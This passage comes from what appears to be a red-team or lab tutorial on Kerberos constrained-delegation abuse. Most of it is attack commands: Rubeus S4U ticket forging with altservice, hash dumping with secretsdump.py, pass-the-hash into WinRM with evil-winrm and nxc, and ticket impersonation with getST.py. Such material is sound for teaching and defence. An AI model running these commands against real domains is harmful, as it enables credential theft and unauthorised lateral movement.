 We can use the `altservice` flag to request a ticket for the `HTTP` service which is usable for WinRM.

```sh
execute-assembly Rubeus.exe s4u /msdsspn:[delegated_spn] /domain:[domain] /user:[user] /rc4:[ntlm hash] /impersonateuser:[user_with_local_admin] /altservice:HTTP /nowrap
```

And, now the ticket is usable for the `HTTP` service on `US-MSSQL`, which includes WinRM.

![33](https://i.gyazo.com/b4e8657cde2f695f6d3850ce30ed8b37.jpg)

Alternatively, you can also use your `cifs` ticket to dump hashes on the target machine with `secretsdump.py`; and use the local administrator's hash to log on via WinRM.

```sh
proxychains secretsdump.py -k -no-pass [TARGET_FQDN]
```

![34](https://i.gyazo.com/032952af57ea8025e1cf391ac4744ca6.png)

Now, we can PTH this hash into WinRM with `evil-winrm` or `nxc winrm`.

```sh
proxychains nxc winrm [IP/FQDN] -u [username] -H [hash] --local-auth
proxychains evil-winrm -i [IP/FQDN] -u [username] -H [hash]
```

![35](https://i.gyazo.com/1b933204bd4bb01314c830ad52e6f4bf.png)

#### Linux -> Windows

Similarly, we can perform this same attack but on the Linux side; then we'll transfer the ticket to Windows to verify that it works.

```sh
getST.py -spn [delegated_spn] -impersonate [user_with_local_admin] [controlled_principal] -hashes :[rc4]
```

![36](https://i.gyazo.com/bcaa0f961ac903058c82c927d12e1220.png)

We can verify that our ticket works with `nxc`

```sh
nxc smb [IP/FQDN] --use-kcache
```

![37](https://i.gyazo.com/01a9585cbbf87167c1f2d38b42864316.png)

There are **2** options for transferring this ticket over to Windows:
1. Transforming the `.ccache` to `.kirbi`, and referencing it in `Rubeus.exe ptt /ticket:[ticket.kirbi]`
    * Requires you to drop the ticket to disk, may be difficult if you don't have a C2
2. Transforming the `.ccache` to `.kirbi`, then Base64 encoding it and referencing it in `Rubeus.exe ptt /ticket:[base64_ticket]`
    * If you're using a C2, the length of the ticket may cause argument length issues depending on your C2 protocol

